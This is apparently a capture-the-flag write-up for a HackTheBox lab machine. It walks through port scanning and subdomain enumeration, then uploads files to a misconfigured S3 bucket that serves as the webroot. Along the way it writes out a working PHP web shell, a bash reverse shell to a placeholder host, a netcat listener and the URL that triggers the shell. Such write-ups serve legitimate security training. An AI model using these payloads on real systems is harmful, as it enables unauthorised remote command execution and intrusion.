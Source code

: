 #easy 
#web
#php
#aws
#subdomains

**Reconnaissance**
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are two open ports,  port 22 running ssh service and also port 80 running a Apache webserver.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-16 11:43 CET
Nmap scan report for 10.129.79.254
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
**Exploring the website**
Since we found an standard web open port, we try to enter the website. 
After performing a manual research on the website we can find a domain in the contacts part which is `thetoppers.htb`

We need to explore more information with this domain so we add it to /etc/hosts with the following command `echo "${TARGET} thetoppers.htb" | sudo tee -a /etc/hosts`


**Subdomain discover**

One thing that we must try once we have a domain is search if there are any associated common subdomains, in order to do this we execute the following command

`gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/11/16 12:17:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 404) [Size: 21]
Found: gc._msdcs.thetoppers.htb (Status: 400) [Size: 306]
                                                         
===============================================================
2023/11/16 12:17:51 Finished
===============================================================
```
We found a subdomain which returns a 404 error, so as we did before we add it to /etc/hosts, to do it we use this command `echo "${TARGET} s3.thetoppers.htb" | sudo tee -a /etc/hosts`

**AWS S3 website**

As we did before we enter the new website, it says that is running so we do a little of research to find that we are working with a AWS S3, this is used as a storage service, in this particular case as a webserver. To interact with it we need to use the `aws` terminal tool, once we have the tool installed we need to setup it so we use the following command.

```
aws configure
AWS Access Key ID [None]: tmp
AWS Secret Access Key [None]: tmp
Default region name [None]: tmp
Default output format [None]: tmp
```
Once the aws cli is setup we can perform commands, first of all we want to know all the S3 endpoints so we run `aws --endpoint=http://s3.thetoppers.htb s3 ls`

```
2023-11-16 11:42:35 thetoppers.htb

```

It seems that there is only one endpoint so now we are going to explore this one, to do so we run `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

```
                          PRE images/
2023-11-16 11:42:35          0 .htaccess
2023-11-16 11:42:35      11952 index.php
```

We discover that the S3 is acting as the webroot, given this fact and the fact that we can do whatever we want to with the S3, we can upload a malicious code that let us run remote commands on the server. As the webserver is running .php we need to write the code in PHP, the following code allow us to run commands from the web url:

`<?php system($_GET["cmd"]); ?>`

Once written the code to a file `shell.php` we can upload it to the AWS S3 by running `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

To test it we can access the following url to test if we run commands as the webserver user, `http://thetoppers.htb/shell.php?cmd=id`

**Reverse shell**

Now that we are allowed to run commands we are going to get a reverse shell on the server, to do this first we write the reverse shell code, it looks like this:
```
#!/bin/bash 
bash -i >& /dev/tcp/MYVPNIP/1337 0>&1
```

Once we have created the script we can upload it to the server as shown before, by running `aws --endpoint=http://s3.thetoppers.htb s3 cp reverseShell.sh s3://thetoppers.htb`

Now we need to start a listener in our machine, to do so execute `nc -nvlp 1337`

To start the reverse shell we can enter in the following url `http://thetoppers.htb/shell.php?cmd=cat%20reverseShell.sh|bash`

Once inside the reverse shell we can run the following commands to obtain the desired flag value
```
ls
cd ..
ls
cat flag.txt
```
After getting the flag we can finally clean our pentesting environment by removing the written scripts and deleting the new domains of /etc/hosts
